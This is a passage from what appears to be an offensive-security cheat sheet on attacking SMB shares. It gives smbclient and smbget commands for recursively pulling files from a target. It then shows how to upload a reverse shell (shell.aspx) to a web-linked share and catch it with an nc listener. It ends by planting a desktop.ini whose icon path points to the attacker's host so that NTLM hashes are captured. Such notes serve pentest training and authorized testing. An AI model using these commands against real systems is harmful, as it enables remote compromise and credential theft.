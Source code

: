 To download files recursively, run the following commands.
```sh
smb> mask ""
smb> recurse ON
smb> prompt OFF
smb> mget *
```

Or using smbget from local machine.  
Especially, it’s useful for **downloading a large file** rather than “get” command in smbclient.

```sh
smbget smb://<target-ip>/somedir/example.txt -U username
smbget -R smb://<target-ip>/somedir -U username

# Specify workgroup
smbget -R smb://<target-ip>/somedir -w WORKGROUP -U username

# as anonymous user
smbget smb://<target-ip>/somedir -U anonymous
password: anonymous
```

### Upload Files
```sh
# Upload a file
smb> put example.txt
```
- **Upload Reverse Shell Payload**

If the website is associated with the SMB server, we can upload reverse shell script such as **`aspx`**, **`php`** and get a shell.  
To create a payload, please refer to the [Web Reverse Shell](https://exploit-notes.hdks.org/exploit/shell/web-reverse-shell) or the [Reverse Shell with Metasploit](https://exploit-notes.hdks.org/exploit/shell/reverse-shell-with-metasploit).

Then upload it to the SMB server as below.
```bash
smb> put shell.aspx
```

Don’t forget to start a listener for getting outcoming connection.
```bash
nc -lvnp 4444
```

Now access to **`https://example.com/path/to/smb/share/shell.aspx`**.  
We can get a shell.

### Steal NTLM Hash with Desktop.ini
Reference: [https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini)

We can retrieve the hashes by putting **`desktop.ini`** file, that contains arbitrary icon resource path, to the shared folder.  
Create a new **`desktop.ini`** in local machine.
```txt
[.ShellClassInfo]
IconResource=\\<local-ip>\test
```
